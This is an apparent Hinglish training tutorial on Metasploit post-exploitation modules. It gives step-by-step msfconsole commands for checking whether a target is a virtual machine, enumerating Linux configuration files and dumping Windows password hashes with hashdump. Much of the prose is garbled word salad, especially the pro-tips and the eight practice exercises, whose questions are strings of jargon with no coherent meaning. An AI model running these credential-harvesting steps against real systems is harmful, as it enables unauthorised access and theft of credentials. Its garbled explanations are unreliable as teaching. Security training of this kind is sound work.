

# Topic 24 - Metasploit Post-Exploitation Modules

Target system ko successfully exploit karne ke baad (jab session active ho jata hai), post-compromise activities (jaise system information gathering, credential harvesting, privilege checks, aur persistence) perform karne ke liye hum **Post-Exploitation Modules** ka use karte hain.

Is guide mein hum Post modules ke architecture, execution steps, and dynamic command setups ko detail mein samjhenge.

---

## 🗺️ Post-Exploitation Workflow & Architecture



---

## 1. Deep Dive Explanation (Post-Exploitation Modules Kya Hain?)

### A. The Core Concept
* **Session Dependency:** Auxiliary modules ko run karne ke liye kisi active session ki zaroorat nahi hoti. Lekin, **Post modules ko chalne ke liye hamesha ek active session (SESSION ID) chahiye hota hai.**
* **The Main Goal:** Ek baar target system par basic access (shell ya Meterpreter) milne ke baad, us system ke andar deeply audit scan trace execute karne ke liye Post modules use kiye jate hain.

### B. Common Categories of Post Modules:
1. **Gather:** System parameters, network routing directories, stored application passwords, and configuration values gather karne ke liye.
2. **Escalate:** Low-privilege user status checks ko administrative/root status par elevate karne ke dynamic check options.
3. **Manage:** Target processes control, file system manipulation, and settings updates.
4. **Capture:** Memory traces keystrokes dumps capture indicators checks.

---

## Part 2: Bhar-Bhar Ke Practicals (Basic to Advance)

### Practical 1: Check Target Virtualization Environment (`post/multi/gather/checkvm`)
Kk target system kisi Virtual Machine (VMware/VirtualBox) ke andar run ho raha hai ya direct physical hardware par, is information ko analyze karna:

#### Step 1: Active Sessions parameters verify list:
```text
msf6 > sessions -l
```
*(Maan lijiye target host connection details Session ID `1` par connect check list par show ho rahe hain).*

#### Step 2: Post module load command execute:
```text
msf6 > use post/multi/gather/checkvm
```
#### Step 3: Session parameter set target config check:
```text
msf6 post(multi/gather/checkvm) > set SESSION 1
```
#### Step 4: Module run check execution:
```text
msf6 post(multi/gather/checkvm) > run
```
* **Output Example:**
  `[*] CheckVM: Target system appears to be a VirtualBox Virtual Machine.`

---

### Practical 2: Harvesting Linux System Configuration (`post/linux/gather/enum_configs`)
Compromised Linux server par active credentials security configuration mapping audits checks trace check inputs:

#### Step 1: Load linux config enumeration post module:
```text
msf6 > use post/linux/gather/enum_configs
```
#### Step 2: Session parameter target lock command:
```text
msf6 post(linux/gather/enum_configs) > set SESSION 1
```
#### Step 3: Execution start check:
```text
msf6 post(linux/gather/enum_configs) > run
```

---

### Practical 3: Windows Credentials Dumps check (`post/windows/gather/hashdump`)
Active session parameters support credentials harvesting systems:

#### Step 1: Load hashdump gather post module:
```text
msf6 > use post/windows/gather/hashdump
```
#### Step 2: Session verify:
```text
msf6 post(windows/gather/hashdump) > set SESSION 1
```
#### Step 3: Run target commands:
```text
msf6 post(windows/gather/hashdump) > run
```

---

## Part 3: Pro-Tips & Evasion Realities

* **Interactive Sessions Switch (`sessions -i`):** Dynamic session parameters check limits systems check controls options execute loops. 
* **Module Execution from Meterpreter:** Meterpreter shell ke andar hote hue aap direct global post modules bypass execution chala sakte hain using `run` shortcut command:
  ```text
  meterpreter > run post/multi/gather/checkvm
  ```
  *(Is setup se system automatic current active session ko variable block set parameter values ke sath load check run options parameters lock down kar deta hai).*

---

## 📝 Practice Exercises (Hinglish Tasks)

1. **Exercise 1 (Session Mapping dependency):**  
   Post modules ko execute check limits system commands list parameters trace execution checks indicators ke criteria verify target session ID constraints require kyun karte hain?

2. **Exercise 2 (Compare Auxiliary vs Post):**  
   Auxiliary category module checks standard layout parameters aur Post category module parameters check models execute values setup dynamics run check standard interfaces main differences explain.

3. **Exercise 3 (Meterpreter shortcut command execution):**  
   Meterpreter prompt parameters details execute runs checking loops mein `run post/...` shortcut execution background structures registers process maps verify settings config template checking syntax values framework output kya verify karta hai?

4. **Exercise 4 (Check privileges checks):**  
   Post-exploitation phases check privileges escalation indicators check system modules check targets options verify parameters system modules.

5. **Exercise 5 (Verify gather modules output file paths):**  
   Gather post modules systems execution settings trace files details files path standard target destination check settings directories variables outputs trace paths.

6. **Exercise 6 (Multi platform post modules):**  
   Post modules categories paths filters generic configurations checking models structures names (e.g. `post/multi/...`) multi parameters verify settings.

7. **Exercise 7 (Process migration basics):**  
   Target system memory limits dynamic processes stability indicators checking process migration techniques parameters dynamic verification process check loops.

8. **Exercise 8 (Identify hashdump permissions):**  
   Windows security databases elements check target registers permissions security hashes extraction process trace checks.
